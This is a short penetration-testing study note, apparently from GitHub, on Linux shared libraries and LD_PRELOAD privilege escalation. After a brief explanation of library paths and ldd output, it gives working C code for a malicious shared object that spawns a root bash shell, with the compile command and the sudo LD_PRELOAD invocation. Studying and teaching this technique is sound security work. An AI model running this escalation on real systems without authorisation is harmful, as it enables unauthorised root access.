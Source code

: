 # Linux Shared Libraries Attacks

* two types of libraries exist in Linux:&#x20;
  * `static libraries` (denoted by the .a file extension)
  * `dynamically linked shared object libraries` (denoted by the .so file extension)
* There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution.
* This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.
* Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary.
  * The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the `ldd` utility.

```shell-session
ldd /bin/ls
```

```shell-session
	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

* The code above lists all the libraries required by `/bin/ls`, along with their absolute paths.

### LD\_PRELOAD Privilege Escalation

```shell-session
sudo -l
```

* get the exuctable that can run as root or the user you want to get as

```bash
cd /tmp
nano root.c
```

* root.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```shell-session
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

```shell-session
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

* you get shell of that user
